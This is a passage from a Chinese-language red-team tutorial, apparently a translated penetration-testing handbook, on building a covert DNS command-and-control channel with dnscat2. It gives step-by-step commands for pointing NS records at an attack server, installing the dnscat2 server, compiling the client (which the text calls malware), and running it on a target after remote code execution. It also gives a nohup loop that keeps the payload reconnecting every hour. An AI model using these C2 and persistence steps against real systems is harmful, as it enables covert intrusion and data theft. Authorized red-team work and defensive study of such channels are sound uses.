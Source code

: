 
![](../images/chapter_1/1-11.png)

如上图所示，我们现在让我们的 NS 记录指向 ns1.loca1host.com 和 ns2.loca1host.com，它们都指向我们的攻击 VPS 服务器的 IP。 如果你尝试解析 loca1host.com 的任何子域（即 vpn.loca1host.com），它将尝试使用我们的 VPS 进行相关的域名解析。对我们来说幸运的是，dnscat2 在 UDP 端口53上监听并为我们做了所有繁重的工作。

接下来，我们将需要完全设置充当我们的自定义域名解析服务器的攻击服务器。初始化并设置 dnscat2 服务器：

```shell
sudo su -
apt-get update
apt-get install ruby-dev
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
apt-get install gcc make
gem install bundler
bundle install
请测试确认以下脚本能够正常运行: ruby ./dnscat2.rb
备注: 如果你使用的是 Amazon Lightsail，请确保安全组设置中允许 UDP 端口53
```

对于客户端的代码，我们需要将其编译为 Linux 支持执行的二进制文件。

#### 编译客户端
```
git clone https://github.com/iagox86/dnscat2.git /opt/dnscat2/client
cd /opt/dnscat2/client/
make
我们现在应该创建一个 dnscat 二进制文件！
(如果你在 windows 环境下编译，需要将 client/win32/dnscat2.vcproj 加载到 Visual Studio 并点击 “build” )
```

现在我们已经配置好了权威 DNS，我们的攻击服务器作为一个 DNS 服务器正在运行 dnscat2，并且我们已经编译了恶意软件。我们已经准备好在目标机器中执行我们的 payload。

在开始之前，我们需要在攻击服务器上启动 dnscat2。要启用多个配置，其中的主要配置是配置那个 `-secret` 标志来确保我们在 DNS 请求中的通信是加密的。另外，一定要更换我上面用于演示的 loca1host.com 域名，使用你自己拥有的域名并创建随机密钥字符串。

在你的攻击服务器中启用 dnscat2:
```
screen
ruby ./dnscat2.rb loca1host.com —secret 39dfj3hdsfajh37e8c902j
```

假设你在易受攻击的服务器上有某种 RCE（远程命令执行漏洞）。 你可以运行 shell 命令并上传我们的 dnscat payload。执行 payload：
```
./dnscat loca1host.com —secret 39dfj3hdsfajh37e8c902j
```

这将在目标机器中启动 dnscat，域名查询使用了我们自定义的的权威服务器，从而创建我们的 C2 通道。 我留意到一件事是有时 dnscat2 进程会莫名其妙挂掉。这可能来自大型文件传输或者只是程序崩了。为了规避这些类型的问题，我想确认我的 dnscat payload 有返回。为此，我通常喜欢使用快速 bash 脚本启动我的 dnscat payload：
```
nohup /bin/bash -c “while true; do /opt/dnscat2/client/dnscat loca1host.com -secret 9dfj3hdsfajh37e8c902j -max-retransmits 5; sleep 3600; done” > /dev/null 2>&1 &
```

这将确保如果客户端 payload 进程因任何原因而挂掉了，它将每小时生成一个新的实例。有时你只有一次机会来运行你的 payload，那么你需要让程序自己计数！
最后，如果你要在 Windows 上跑这个 payload，你可以编译使用 dnscat2 payload......或者，为什么不在 PowerShell 中执行此操作呢？！ Luke Baggett 写了一个关于 dnscat 客户端的 PowerShell 版本->[点此查看](https://github.com/lukebaggett/dnscat2-powershell)。
